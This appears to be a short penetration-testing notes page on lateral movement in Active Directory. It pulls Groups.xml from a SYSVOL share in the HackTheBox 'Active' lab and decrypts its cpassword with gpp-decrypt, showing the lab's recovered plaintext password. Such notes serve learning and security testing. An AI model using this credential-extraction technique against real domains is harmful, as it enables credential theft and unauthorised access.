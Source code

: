 ```yaml
---
description: >-
  SYSVOL lateral movemet abusing Groups.xml file.
title: SYSVOL (Groups.xml)              # Add title here
date: 2023-02-09 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement - SYSVOL (Groups.xml)]                     # Change Templates to Writeup
tags: [active directory, lateral movement, groups.xml, sysvol share, gpp decrypt]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

If we have access to a SYSVOL file, we can extract the "Groups.xml" file and decrypt the cpassword with gpp-decrypt utility:
```bash
# Contents of Groups.xml
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Examples:
[Active](https://shuciran.github.io/posts/Active/#fnref:sysvol-gpp-decrypt]